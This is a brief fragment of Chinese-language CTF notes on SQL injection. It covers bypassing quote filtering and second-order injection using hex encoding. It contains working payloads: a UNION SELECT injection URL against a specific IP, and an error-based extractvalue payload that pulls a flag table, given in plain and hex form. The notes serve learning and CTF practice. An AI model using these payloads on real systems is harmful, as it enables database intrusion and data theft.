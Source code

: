 ### 单双引号过滤
```powershell
http://94.191.19.91/image.php?id=\0&path=union select 1,0x696d6167652e706870-- -
```
### 二次注入
二次注入时，有过滤时，可以直接将sql语句进行16进制编码再传入，从而绕过一些过滤<br />[2018 SUCTF Homework xxe外带数据~~ xxe进行ssrf_HyyMbb的博客-CSDN博客](https://blog.csdn.net/a3320315/article/details/104288865)
```xml
ascii：'||extractvalue(1,concat(0x7e,(select flag from flag),0x7e))||'
hex：0x277C7C6578747261637476616C756528312C636F6E63617428307837652C2873656C65637420666C61672066726F6D20666C6167292C3078376529297C7C27
```
